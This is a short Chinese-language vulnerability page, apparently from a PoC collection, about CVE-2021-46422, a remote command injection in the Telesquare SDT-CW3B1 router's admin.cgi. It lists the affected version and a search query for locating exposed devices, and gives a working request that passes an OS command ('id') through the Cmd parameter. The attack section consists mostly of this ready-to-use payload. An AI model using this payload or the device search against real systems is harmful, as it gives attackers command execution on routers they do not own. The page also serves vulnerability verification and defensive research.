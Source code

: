 # Telesquare SDT-CW3B1 admin.cgi 远程命令执行漏洞 CVE-2021-46422

## 漏洞描述

Telesquare SDT-CW3B1 1.1.0版本中存在命令注入漏洞，攻击者通过漏洞可以获取服务器权限

## 漏洞影响

<a-checkbox checked>Telesquare SDT-CW3B1 1.1.0</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="SDT-CS3B1"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1654142395320-945fe781-d087-46d1-a026-e1bb5f440ad5.png)

验证POC

```php
/cgi-bin/admin.cgi?Command=sysCommand&Cmd=id
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1654143109183-7ba34ffa-7bdd-4552-963f-693cfcfb796f.png)